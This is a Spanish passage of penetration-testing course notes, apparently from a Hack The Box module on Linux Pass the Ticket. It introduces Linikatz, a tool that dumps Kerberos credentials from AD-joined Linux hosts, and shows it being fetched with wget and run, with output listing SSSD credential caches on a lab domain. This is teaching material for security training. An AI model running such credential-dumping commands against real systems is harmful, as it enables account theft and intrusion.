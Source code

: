 ```

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free

```

---

# **Linikatz**

[Linikatz](https://github.com/CiscoCXSecurity/linikatz)es una herramienta creada por el equipo de seguridad de Cisco para explotar las credenciales en las máquinas Linux cuando hay una integración con Active Directory. En otras palabras, Linikatz aporta un principio similar a`Mimikatz`a entornos unix.

Solo como`Mimikatz`, Para aprovechar Linikatz, debemos ser root en la máquina. Esta herramienta extraerá todas las credenciales, incluidas las entradas de Kerberos, de diferentes implementaciones de Kerberos, como FreeIPA, SSSD, Samba, Vintella, etc. Una vez que extrae las credenciales, las coloca en una carpeta cuyo nombre comienza con`linikatz.`. Dentro de esta carpeta, encontrará las credenciales en los diferentes formatos disponibles, incluidos CCACHE y KeyTabs. Estos pueden usarse, según corresponda, como se explicó anteriormente.

### **Descarga y ejecución de Linikatz**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.shxnoxos@htb[/htb]$ /opt/linikatz.sh _ _       _ _         _
| (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Hughski-Limited
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd/LVFS-CA.pem
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Foundation-Metadata
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd-metadata/LVFS-CA.pem
I: [sss-check] SSS AD configuration
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/timestamps_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  7 12:17 /var/lib/sss/db/config.ldb
-rw------- 1 root root 4154 Oct 10 19:48 /var/lib/sss/db/ccache_INLANEFREIGHT.HTB
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/cache_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  4 16:26 /var/lib/sss/db/sssd.ldb
-rw-rw-r-- 1 root root 10406312 Oct 10 19:54 /var/lib/sss/mc/initgroups
-rw-rw-r-- 1 root root 6406312 Oct 10 19:55 /var/lib/sss/mc/group
-rw-rw-r-- 1 root root 8406312 Oct 10 19:53 /var/lib/sss/mc/passwd
-rw-r--r-- 1 root root 113 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/localauth_plugin
-rw-r--r-- 1 root root 40 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/krb5_libdefaults
-rw-r--r-- 1 root root 15 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/domain_realm_inlanefreight_htb
-rw-r--r-- 1 root root 12 Oct 10 19:55 /var/lib/sss/pubconf/kdcinfo.INLANEFREIGHT.HTB
-rw------- 1 root root 504 Oct  6 11:16 /etc/sssd/sssd.conf
I: [vintella-check] VAS AD configuration
```